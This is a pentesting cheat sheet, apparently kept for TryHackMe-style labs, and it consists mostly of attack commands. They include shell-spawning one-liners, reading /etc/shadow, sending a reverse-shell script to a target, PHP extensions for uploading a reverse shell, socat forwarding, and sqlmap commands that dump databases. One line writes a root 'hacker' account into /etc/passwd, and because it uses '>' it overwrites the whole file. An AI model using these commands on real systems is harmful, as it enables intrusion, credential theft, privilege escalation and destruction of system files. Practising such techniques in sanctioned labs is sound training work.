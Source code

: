 [back](/README.md)
## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
```
`l\s`: Equivalent to `ls`

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```
gzip -d file.gz
```
#### Change file without vim or nano
```
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

#### grep
```
grep -Rwi "text"
```

#### [steal admin cookie/sqli](/other/marketplace.md) (tryhackme:marketplace)

#### sqlmap
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

